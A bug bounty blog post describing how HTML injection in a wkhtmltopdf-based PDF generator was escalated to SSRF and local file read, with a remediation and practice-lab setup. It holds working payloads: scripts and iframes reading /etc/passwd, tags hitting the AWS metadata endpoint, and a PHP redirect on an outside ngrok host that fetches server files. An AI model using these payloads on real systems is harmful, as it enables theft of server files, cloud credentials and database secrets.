 ```yaml
---
title: "SSRF to Local File Read"
date: 2021-03-31
tags: [BugBounty, BugBountyTips, Server Side Request Forgery, Local File Disclosure, SSRF, LFI, Ruby On Rails, Rails]
excerpt: "SSRF to Local File Read"
header:
  image: "assets/images/BugBountyImages/ssrf/ssrf_to_lfi.png"

---
```


Greetings everyone, this blog post is about the vulnerability that I have identified in `Wkhtmltopdf` gem, which was allowing users to inject HTML in the pdf files, and after doing further research, I was able to identify that the parser's functionality was vulnerable to internal SSRF attack, which further allowed me to read server's local file.

Injecting the simple HTML payload the code section oft the application `"><h1>XSS</h1>`

<img src="https://raw.githubusercontent.com/Splint3r7/web/master/assets/images/BugBountyImages/ssrf/Screenshot_2021-03-24_at_8.22.58_PM.png" alt="">

Loading the PDF file show's the injected HTML has been successfully executed in our PDF file. 

<img src="https://raw.githubusercontent.com/Splint3r7/web/master/assets/images/BugBountyImages/ssrf/Screenshot_2021-03-24_at_8.26.05_PM.png" alt="">


So as you can see HTML injection is happening in our pdf file and at this time as one's my excitement level can be high, Since we know in these kinds of cases there are high chances to find internal SSRF or read local files from the server.

So the next thing I did is to send an XHR request using file:///,As mentioned in the blog post by noob ninja [LFI to XSS](https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html).

```ruby
<script>
x=new XMLHttpRequest;
x.onload=function(){
document.write(this.responseText)
};
x.open("GET","file:///etc/passwd");
x.send();
</script
```

But nothing happened. I realized that the script was blocked and the XHR request got failed. Okay so, the next thing that I have tried is to send the request to my server and checked the response headers. I used simple payload `"><img src="[http://406e7772.ngrok.io](http://406e7772.ngrok.io/)">` and I was presented with the `User-agent` header as `User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/534.34 (KHTML, like Gecko) wkhtmltopdf Safari/534.34`.

I also tried to extract passwd file using the payload `"><iframe src="file:///etc/passwd" height="500" width="500">` it didn't worked as well, got a blank pdf file.

From the user-agent, `wkhtmltopdf` sounds suspicious to me, and after doing a bit of googling I was able to find that `wkhtmltopdf` is vulnerable to SSRF Attacks. [Issue link.](https://github.com/wkhtmltopdf/wkhtmltopdf/issues/3570)

It was time to try to call AWS metadata API's and that's what I did. So I used an iframe to request internal AWS API's

```ruby
"><iframe src="http://169.254.169.254/latest/dynamic/instance-identity/" height="500" width="500">
```

and I was presented with meta data response. I was able to fetch instance identity.

```ruby
document
signature
pkcs7
rsa2048
```

So at this point it was a confirmed internal SSRF.

I didn't want to stop there, as I wanted to exploit it further and read the local files of the server. My hunger just to get read local files so I can sleep peacefully.

As mentioned in the above blog post, `wkhtmltopdf` is vulnerable to SSRF attack and it's through the location header.

```ruby
<?php
     header('location:http://127.0.0.1');
?>
```

So, what I did, create a php file with the following content:

```ruby
<?php header('location:file://'.$_REQUEST['url']); ?>
```

Hosted this PHP file on my ngrok server and then I sent the payload as:

```ruby
"><iframe height="2000" width="800" src=http://c723862e.ngrok.io/test.php?x=%2fetc%2fpasswd></iframe>
```

and i was presented with the PDF file

<img src="https://raw.githubusercontent.com/Splint3r7/web/master/assets/images/BugBountyImages/ssrf/Screenshot_2021-03-25_at_1.06.06_AM.png" alt="">

Yayy!! I was able to read the local file of the server. as I know more about the organization and how they store their application internally I tried to fetch their database.yml file in path `/config/database.yml` but it did not succeed. Later, I figured it out that they had their database file in `/var/company_name/config/database.yml` and I was able to read their DB file as well.

<img src="https://raw.githubusercontent.com/Splint3r7/web/master/assets/images/BugBountyImages/ssrf/Screenshot_2021-03-25_at_1.10.55_AM.png" alt="">

### Payloads

In case script and iframe are blocked you can use these payloads:

```html
embed
object
img
```

And you can further craft your payload as:

```html
"><embed src="http://169.254.169.254/latest/dynamic/instance-identity/" width=”200″ height=”200" />

"><object data="http://169.254.169.254/latest/dynamic/instance-identity/" width="400" height="300" type="text/html"></object>

"><img src='http://169.254.169.254/latest/dynamic/instance-identity/' height="2000" width="800">
```

### How to fix this SSRF?

To fix this vulnerability use `-disable-local-file-access` while converting HTML files into PDF.

if you are using wicked_pdf then introduce the `disable_local_file_access` parameter in `parse_others`function. it should look like this:

```ruby
r += make_options(options, [:book,
		                              :other_parameters
                                  :disable_smart_shrinking,
                                  :disable_local_file_access,
                                  :no_stop_slow_scripts], '', :boolean)
```

### Re-creating SSRF locally!

So, I did coded this for my friend so he can practice this bug type.

to reproduce this issue first you need to install wkhtmltopdf in your machine.

**Installation for Debian:**

```bash
$ apt-get install libfontenc1 xfonts-75dpi xfonts-base xfonts-encodings xfonts-utils openssl build-essential libssl-dev libxrender-dev git-core libx11-dev libxext-dev libfontconfig1-dev libfreetype6-dev fontconfig -y
$ wget https://github.com/wkhtmltopdf/wkhtmltopdf/releases/download/0.12.5/wkhtmltox_0.12.5-1.bionic_amd64.deb
$ dpkg -i wkhtmltox_0.12.5-1.bionic_amd64.deb
$ apt --fix-broken install
```

**Installation for Kali Linux:**

```bash
$ sudo apt-get install wkhtmltopdf
```

<script src="https://gist.github.com/Splint3r7/09d82684dfe701a4aa319c5beffb64cd.js"></script>


<script src="https://gist.github.com/Splint3r7/81661d9ef5e59c669bfcac650d53f707.js"></script>

Host these two files on your apache2 server and now you can go to the URL `[http://127.0.0.1/ss2.php?xss="><h1>XSS</h1>](http://127.0.0.1/ss2.php?xss="><h1>XSS</h1>)` once you hit this URL, a test.html file will be created with your supplied input and a PDF file will be generated.

You are good to go with your SSRF to LFI lab and practice it further! ;)
